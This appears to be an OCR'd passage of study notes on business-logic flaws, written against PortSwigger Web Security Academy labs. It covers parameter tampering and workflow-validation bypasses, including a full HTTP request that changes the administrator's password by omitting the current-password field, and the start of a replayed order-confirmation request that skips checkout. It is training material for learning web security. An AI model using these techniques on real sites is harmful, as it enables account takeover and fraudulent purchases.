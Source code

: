   - Follow multi-stage processes through to completion. Sometimes tampering with a parameter in one step will have an effect on another step further along in the workflow.
   
   This applies to both `URL` and `POST` parameters, but don't forget to check the `cookies` too. This simple process can reveal some bizarre application behavior that may be exploitable.
   
    EX:
   
   After I Login ther are a page `/my-account` in this page you can change you `password` and `Email` when you change your password if you remove the 
   
   `current-password` parameter entirely, you are able to successfully change your password without providing your current one.Observe that the user whose password is changed is determined by the username parameter. Set `username=administrator` and send the request again.
   
   Log out and you can now successfully log in as the administrator using the password you just set.
   
   ```log
   POST /my-account/change-password HTTP/2
   Host: 0a1f005304473668882d0f18009f00ee.web-security-academy.net
   Cookie: session=6FQ9BN01BAo49F9Y03FSn80DYG7TdScr
   User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 125
   Origin: https://0a1f005304473668882d0f18009f00ee.web-security-academy.net
   Referer: https://0a1f005304473668882d0f18009f00ee.web-security-academy.net/my-account?id=wiener
   Upgrade-Insecure-Requests: 1
   Sec-Fetch-Dest: document
   Sec-Fetch-Mode: navigate
   Sec-Fetch-Site: same-origin
   Sec-Fetch-User: ?1
   Te: trailers
   
   csrf=IlU7sHRaW6YtBr9XIpZod0frMykY9xwt&username=administrator&new-password-1=admin&new-password-2=admin
   ```

5. Insufficient workflow validation
   
   Making assumptions about the sequence of events can lead to a wide range of issues even within the same workflow or functionality. Using tools like `Burp Proxy` and `Repeater`, once an attacker has seen a request, they can replay it at will and use forced browsing to perform any interactions with the server in any order they want. This allows them to complete different actions while the application is in an unexpected state. 
   
   EX:
   
   With Burp running, log in and buy any item that you can afford with your store
   
   credit. Study the proxy history. Observe that when you place an order, the
   
   `POST /cart/checkout` request redirects you to an order confirmation page. Send 
   
   `GET /cart/order-confirmation?order-confirmation=true` to Burp Repeater. 
   